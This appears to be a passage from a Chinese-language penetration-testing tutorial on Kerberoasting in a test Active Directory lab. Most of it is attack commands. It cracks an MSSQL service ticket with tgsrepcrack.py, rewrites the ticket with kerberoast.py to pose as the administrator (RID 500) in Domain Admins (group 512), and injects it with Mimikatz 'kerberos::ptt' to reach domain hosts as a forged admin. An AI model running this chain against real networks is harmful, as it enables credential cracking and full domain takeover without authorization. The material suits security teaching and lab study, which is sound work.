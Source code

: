 ```plain
python3 tgsrepcrack.py wordlist.txt 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi
```

[![](assets/1701606719-b48ec6cf74186be4dc8a22c7c6cc1376.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162709-9bb54248-7e10-1.png)  
之后我们还可以重写该 Ticket：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -u 500
```

之后添加用户到域管理员：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -g 512
```

之后使用 Mimikatz 注入到 RAM 中：

```plain
kerberos::ptt sql.kirbi
```

之后伪造域管理员账户进行访问域内主机~

#### Rubeus
